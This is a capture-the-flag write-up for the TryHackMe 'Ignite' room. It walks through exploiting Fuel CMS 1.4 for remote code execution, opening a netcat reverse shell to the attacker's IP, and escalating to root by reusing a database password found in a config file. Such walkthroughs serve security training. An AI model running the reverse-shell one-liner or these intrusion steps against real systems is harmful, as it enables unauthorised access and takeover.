 # Ignite (THM)

- https://tryhackme.com/room/ignite
- March 4, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 80/http Apache httpd 2.4.18 (Ubuntu)
   - robots.txt -> /fuel/
2. 5405/tcp

![](images/2023-03-04-18-38-55.png)

## Get User Access

- fuel CMS 1.4
- find from searchsploit and found RCE for fuel CMS
- I edit to python3 and get RCE
- enter cmd to get reverse shell
- listen with nc at local machine and in cmd

```sh
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

- get `www-data` user access
- spawn shell

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
$ cat /home/www-data/flag.txt
```

## Get Root Access

- `sudo -l` -> don't know password
- find SUID -> nothing special found
- run linpeas
- Interested Findings

```
- Vulnerable to CVE-2021-4034
- Active Ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -

```

- nothing found but there are many files inside /var/www/html
- I found data configuration file at `/var/www/html/fuel/application/config/database.php`

```php
...
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
...
```

- change root user with password

```sh
$ su root
$ cat /root/root.txt
```

---
